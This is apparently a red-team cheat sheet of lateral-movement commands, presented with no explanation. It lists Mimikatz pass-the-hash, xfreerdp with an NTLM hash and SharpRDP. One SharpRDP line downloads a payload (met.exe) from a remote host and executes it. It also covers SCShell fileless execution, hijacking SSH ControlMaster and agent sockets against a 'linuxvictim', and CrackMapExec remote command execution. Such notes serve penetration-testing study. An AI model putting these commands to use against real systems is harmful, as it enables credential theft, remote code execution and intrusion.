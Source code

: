 ## Traversal

---

RDP

```plaintext
mstsc /admin (without disconnecting regular user)
mstsc /restrictedadmin (use current creds)
```

PTH

```plaintext
sekurlsa::pth /user:admin /domain:<domain> /ntlm:<ntlm> /run:"mstsc.exe /restrictedadmin"

sekurlsa::pth /user:admin /domain:<domain> /ntlm:<ntlm> /run:powershell
Enter-PSSession -Computer <hostname>

xfreerdp /u:admin /pth:<ntlm> /v:192.168.1.1 /cert-ignore
```

SharpRDP

```plaintext
SharpRDP.exe computername=srv command=notepad username=domain\willem password=lab
sharprdp.exe computername=srv command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=domain\willem password=lab
```

Fileless PTH

```shell
python3 scshell.py domain/user@192.168.1.1 -hashes 00000000000000000000000000000000:00000000000000000000000000000000 -service-name SensorService
```

ControlMaster

```shell
ssh -S /home/user/.ssh/controlmaster/user\@linuxvictim\:22 user@linuxvictim
```

SSH-Agent

```shell
SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh user@linuxvictim
```

Ansible

```shell
ansible victims -a "whoami"
ansible victims -a "whoami" --become
```

Crackmapexec

```shell
crackmapexec smb 192.168.1.1 -d domain.com -u x -p h4x -x dir

--exec-method {mmcexec,wmiexec,smbexec,atexec}
```
